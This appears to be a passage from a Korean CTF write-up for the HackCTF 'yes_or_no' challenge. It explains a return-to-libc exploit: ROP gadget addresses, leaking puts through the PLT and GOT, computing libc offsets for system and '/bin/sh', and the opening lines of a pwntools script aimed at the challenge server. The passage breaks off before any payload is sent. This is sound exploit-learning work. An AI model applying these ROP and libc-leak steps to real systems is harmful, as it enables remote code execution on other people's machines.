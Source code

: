             ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20yes_or_no/Untitled%205.png)

            - 0x400883 : pop rdi ; ret
            - 0x40056e : ret
<br><br>
        2. Puts 함수 Plt 주소 구하기

            ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20yes_or_no/Untitled%206.png)
<br><br>
        3. Puts 함수 Got 주소 구하기

            ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20yes_or_no/Untitled%207.png)
<br><br>
        4. 인자 정리
            - ret(pop rdi; ret) + puts_got + puts_plt 이렇게 입력하고 다시 메인으로 돌아가야함  
<br><br>
3. 오프셋을 이용하여 system, /bin/sh 주소를 찾은 뒤 익스 
    - libc 주소 확인 (0x7ffff79e4000)

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20yes_or_no/Untitled%208.png)

- puts와 system 주소 확인

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20yes_or_no/Untitled%209.png)  <br><br>

- /bin/sh 위치 확인

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20yes_or_no/Untitled%2010.png)  <br><br>

- 구한 값들을 이용해서 다음과 같이 페이로드를 작성하면 된다

    1.   libc_base : 0x00007ffff79e4000

    2.   puts : 0x7ffff7a649c0

    3.   system : 0x7ffff7a33440

    4.   /bin/sh : 0x7ffff7b97e9a

    5.   puts_offset(puts - libc_base) : 0x809c0

    6.   sys_offset(system - libc_base) : 0x4f440

    7.   bin_offset(/bin/sh - libc_base) : 0x1b3e9a

    8.   leak한 puts주소 - 0x809c0= y_libc_base

    9.   y_libc_base + 0x4f440= system 주소

    10. y_libc_base + 0x1b3e9a = /bin/sh/ 주소  
    

<br><br>    

### 3. 풀이

최종 익스 코드는 다음과 같다
```python
from pwn import *
#context.log_level = "debug"

p=remote("ctf.j0n9hyun.xyz",3009)
#p=process("./yes_or_no")
#gdb.attach(p)
p.recvuntil("Show me your number~!\n")

p.sendline("9830400")

p.recvuntil("That's cool. Follow me\n")
print('ss')
```